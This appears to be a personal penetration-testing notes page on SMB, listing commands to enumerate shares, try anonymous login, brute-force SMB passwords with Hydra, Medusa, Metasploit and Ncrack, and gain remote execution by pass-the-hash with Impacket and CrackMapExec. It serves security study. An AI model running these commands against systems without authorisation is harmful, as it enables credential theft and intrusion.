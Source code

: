 ```yaml
---
tags:
  - Penetration-Testing
  - Services
---
```

## What is SMB?
- Client-Server Communication Protocol used for sharing access to files, printers, ports, and other resources on a network.

## Enumerating SMB Shares
- **Begin with [[Penetration Testing/Nmap|Nmap]] 

### Metasploit
- Find SMB Version
```bash
use auxiliary/scanner/smb/smb_version
```
 ### Enum4Linux
- Tool for enumerating SMB shares on both Windows & Linux
```bash
enum4linux [options] [ip]
```
![[Pasted image 20240516124723.png]]

### SMBMap
- Use to enumerate shares on IP, can be used with user/password flags
```bash
smbmap -H target_ip
```

```bash
smbmap -H target_ip -u username -p password

```

### SMBclient
- Tool to remotely access SMB shares
```bash
smbclient //[IP]/[Share]
```
![[Pasted image 20240516125622.png]]

## Exploiting SMB

### Anonymous Login
- Check to see if share has been configured to allow anonymous access (does not require authentication), don't provide password
```bash
smbclient //[IP]/[Share] -U Anonymous
```

### Brute Forcing SMB
- Hydra
```bash
hydra -L usernames.txt -P passwords.txt smb://<target_ip>
```

- Medusa
```bash
medusa -h <target_ip> -U usernames.txt -P passwords.txt -M smbnt
```

- Metasploit
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <target_ip>
set USER_FILE usernames.txt
set PASS_FILE passwords.txt
run
```

- Ncrack
```bash
ncrack -p 445 -U usernames.txt -P passwords.txt <target_ip>

```

- Impacket (Python Scripts)
```bash
python3 examples/smbexec.py target_ip -u username -p password
```

### Pass-the-Hash
- Must dump NTLM hashes via mimikatz, hashcat, hashdump, etc

- Impacket
	- Must install via pip
```bash
python3 psexec.py administrator@target_ip -hashes lmhash:nthash
```
```bash
python3 smbexec.py administrator@target_ip -hashes lmhash:nthash

```
```bash
python3 wmiexec.py administrator@target_ip -hashes lmhash:nthash
```

- CrackMapExec
	- Only uses NT hash (last part of NTLM hash)
```bash
crackmapexec smb target_ip -u username -H nthash
```